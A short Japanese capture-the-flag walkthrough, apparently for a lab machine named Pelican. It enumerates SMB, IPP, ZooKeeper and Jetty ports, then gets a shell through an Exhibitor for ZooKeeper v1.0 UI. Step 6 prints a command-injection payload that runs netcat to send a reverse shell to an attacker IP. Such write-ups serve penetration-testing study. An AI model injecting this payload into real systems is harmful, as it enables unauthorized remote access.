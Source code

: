 # Pelican

## 手順
1. いつものrustscan。怪しいポートが結構ある。
2. まずSMBの139がanonymousログオンいけるので見るがめぼしい情報はなく。smbmap -Hを匿名で行うもどこにもアクセスはできず。
3. smbにもprintみたいなフォルダがあり、631ポートがippとかいうプリンター関連のポートらしく。怪しいなと思い。しかしぱっと調べた感じ特に何もなく。
4. 2181にzookeeper、8080はJetty1.0がありどっちも怪しいなと。しかしぱっと調べた感じpublic exploitが見当たらず。
5. 8081ポートを見るとExhibitor for ZooKeeperというUIが。v1.0とあり古そう。調べるとconfirmedされていないものの、Public Exploitが見つかり。
6. Configタブから簡単な$(/bin/nc -e /bin/sh 192.168.45.240 4444 &)というコマンドを入力しておいてCommitするとRCEに成功してシェルを取れた。